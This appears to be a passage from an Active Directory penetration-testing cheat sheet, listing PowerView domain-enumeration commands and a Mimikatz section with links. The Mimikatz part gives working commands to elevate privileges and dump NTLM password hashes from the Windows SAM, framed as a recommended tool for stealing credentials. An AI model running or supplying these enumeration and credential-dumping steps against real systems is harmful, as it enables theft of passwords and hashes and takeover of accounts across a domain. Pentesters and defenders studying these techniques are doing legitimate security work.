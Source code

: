 ```Powershell
Get-DomainSID

Get-DomainPolicy

Get-DomainPolicy -Domain pepe.local -DomainController <DC>

Get-DomainController

Get-DomainDNSZone

Get-DomainDNSrecord
```
```Powershell
Invoke-UserHunter -ShowAll

Invoke-UserHunter -Unconstrained -ShowAll
```
```Powershell
Get-ADUserResultantPasswordPolicy

Get-ADUserResultantPasswordPolicy -Identity pepe
```

> # __Mimikatz__
- __https://github.com/gentilkiwi/mimikatz/releases__
- __https://github.com/gentilkiwi/mimikatz/wiki__
- __https://www.varonis.com/blog/what-is-mimikatz/__
- __https://adsecurity.org/?page_id=1821__
- __https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn408187(v=ws.11)?redirectedfrom=MSDN__
- __https://docs.microsoft.com/es-es/windows/win32/api/ntsecapi/ne-ntsecapi-kerb_protocol_message_type?redirectedfrom=MSDN__
- __https://attack.mitre.org/software/S0002/__

>  Mimikatz is an open source program used by penetration testers to steal credentials in Windows. Let's say it's a Swiss army knife for windows, very good and recommended.

* * Mimikatz Dumps
> With mimikatz, we can attack critical parts, such as dump NTLM, cleartext-passwords, kerberos tickets, etc... I will leave some links so that you can study more in depth the operation of this tool.

* * NTLM SAM file hashes dump

> First of all, it wouldn't hurt to look at the architecture to know that you are in the right process, to avoid false positives at post-exploitation time.
```
.\mimikatz.exe
```

```
privilege::debug
token::elevate
lsadump::sam
```
